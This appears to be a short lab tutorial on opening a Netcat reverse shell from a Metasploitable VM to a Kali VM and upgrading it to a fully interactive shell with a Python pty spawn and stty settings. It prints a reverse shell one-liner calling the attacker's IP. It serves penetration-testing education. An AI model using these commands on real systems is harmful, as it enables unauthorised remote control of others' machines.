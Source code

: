 🎯 Objective

Learn simple techniques to stabilize Netcat reverse shells into fully interactive shells.

🛠️ Tools

Kali Linux VM (Attacker)

Metasploitable VM (Victim)

📝 Steps
1. Get a Reverse Shell

Start listener on Kali:

nc -l -v -n -p 443


Connect from Metasploitable:

nc <KALI-IP> 443 -e /bin/bash

2. Upgrade the Shell

Inside the reverse shell (on Kali):

Spawn TTY with Python:

python -c 'import pty; pty.spawn("/bin/bash")'


(or try python2 / python3)

Set terminal type:

export TERM=xterm


Background the shell:

Ctrl + Z


In Kali terminal, fix terminal mode & bring shell back:

stty raw -echo
fg
reset

✅ Result

Arrow keys, autocomplete, and Ctrl+C work normally.

You now have a fully interactive and stable shell.

🚨 Disclaimer

For educational use only. Do not run on systems you don’t own or control.
